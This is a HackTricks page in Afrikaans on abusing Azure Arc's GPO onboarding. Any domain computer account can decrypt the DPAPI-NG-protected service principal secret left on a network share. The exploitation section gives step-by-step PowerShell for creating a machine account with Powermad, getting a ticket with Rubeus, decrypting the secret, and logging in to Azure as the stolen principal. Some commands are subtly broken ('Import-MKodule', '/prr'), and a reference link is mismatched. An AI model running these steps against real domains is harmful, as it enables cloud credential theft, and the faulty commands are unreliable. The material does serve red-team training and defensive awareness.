 # Az - Azure Arc Kwesbare GPO Implementering Skrip

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

### Identifisering van die Probleme

Azure Arc maak die integrasie van nuwe interne bedieners (aangeslote domeinbedieners) in Azure Arc moontlik deur die Groepbeleidsvoorwerp-metode. Om dit te fasiliteer, voorsien Microsoft 'n implementeringshulpmiddel wat nodig is om die aanboordprosedure te begin. Binne die ArcEnableServerGroupPolicy.zip-lêer kan die volgende skripte gevind word: DeployGPO.ps1, EnableAzureArc.ps1, en AzureArcDeployment.psm1.

Wanneer uitgevoer, voer die DeployGPO.ps1-skrip die volgende aksies uit:

1. Skep die Azure Arc Bedieners Aanboord GPO binne die plaaslike domein.
2. Kopieer die EnableAzureArc.ps1 aanboordskrip na die aangewese netwerk-aandeel wat geskep is vir die aanboordproses, wat ook die Windows-installeerpakket bevat.

Wanneer hierdie skrip uitgevoer word, moet stelseladministrateurs twee hoofparameters voorsien: **ServicePrincipalId** en **ServicePrincipalClientSecret**. Daarbenewens vereis dit ander parameters soos die domein, die FQDN van die bediener wat die aandeel huisves, en die aandeelnaam. Verdere besonderhede soos die huurder-ID, hulpbrongroep, en ander nodige inligting moet ook aan die skrip voorsien word.

'n Versleutelde geheim word gegenereer in die AzureArcDeploy-gids op die gespesifiseerde aandeel deur DPAPI-NG-versleuteling te gebruik. Die versleutelde geheim word gestoor in 'n lêer met die naam encryptedServicePrincipalSecret. Bewyse hiervan kan gevind word in die DeployGPO.ps1-skrip, waar die versleuteling uitgevoer word deur ProtectBase64 met $descriptor en $ServicePrincipalSecret as insette te roep. Die beskrywer bestaan uit die Domeinrekenaar en Domeinbeheerder-groep-SID's, wat verseker dat die ServicePrincipalSecret slegs deur die Domeinbeheerders en Domeinrekenaars sekerheidsgroepe ontsluit kan word, soos aangedui in die skripskommentaar.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Uitbuiting

Ons het die volgende toestande:

1. Ons het suksesvol die interne netwerk binne gedring.
2. Ons het die vermoë om 'n rekenaarrekening binne Active Directory te skep of oor te neem.
3. Ons het 'n netwerk-aandeel ontdek wat die AzureArcDeploy-gids bevat.

Daar is verskeie metodes om 'n rekenaarrekening binne 'n AD-omgewing te verkry. Een van die mees algemene is om die rekenaarrekening kwota uit te buit. 'n Ander metode behels die kompromittering van 'n rekenaarrekening deur kwesbare ACL's of verskeie ander verkeerde konfigurasies.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sodra 'n masjienrekening verkry is, is dit moontlik om te verifieer met behulp van hierdie rekening. Ons kan die runas.exe bevel met die netonly vlag gebruik of pass-the-ticket met Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Deur die TGT vir ons rekenaarrekening in die geheue gestoor te hê, kan ons die volgende skrips gebruik om die dienshoofgeheim te dekodeer.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatiewelik kan ons [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) gebruik.

Op hierdie punt kan ons die oorblywende inligting wat nodig is om met Azure te verbind vanuit die ArcInfo.json-lêer, wat op dieselfde netwerk-aandeel as die encryptedServicePrincipalSecret-lêer gestoor word, versamel. Hierdie lêer bevat besonderhede soos: TenantId, servicePrincipalClientId, ResourceGroup, en meer. Met hierdie inligting kan ons Azure CLI gebruik om as die gekompromitteerde diensprinsipaal te verifieer.

## Verwysings

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Azure-Arc/)

